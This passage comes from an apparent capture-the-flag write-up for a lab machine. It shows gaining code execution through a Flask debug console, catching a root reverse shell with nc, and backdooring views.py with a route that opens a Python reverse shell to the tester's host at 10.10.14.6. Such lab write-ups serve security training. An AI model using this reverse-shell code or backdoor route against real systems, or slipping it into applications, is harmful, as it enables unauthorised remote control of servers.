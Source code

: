 Now it generates a PIN that works and gives a console where I can run Python commands:

![image-20220930074512302](https://0xdfimages.gitlab.io/img/image-20220930074512302.png)

#### Reverse Shell

With that shell, I can run OS commands with the `subprocess` module:

![image-20220930074749921](https://0xdfimages.gitlab.io/img/image-20220930074749921.png)

I’ll grab a Python reverse shell from [revshells.com](https://www.revshells.com/), paste it into the console, and execute it (there’s no line wrap, so only the end shows):

![image-20220930075036345](https://0xdfimages.gitlab.io/img/image-20220930075036345.png)

The reverse shell connects to my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.164 46930
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

### Shell by Replacing views.py

#### Generate Backdoored Version

Because the application is running in debug mode, it will reload any time any of the source files change. I’ll use this along with the upload ability to overwrite `views.py`.

I’ve got a copy of the `views.py` file that runs on OpenSource. At the bottom, I’ll add another route:

```

@app.route('/0xdf')
def rev():
    import socket
    import os
    import pty
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("sh")

```
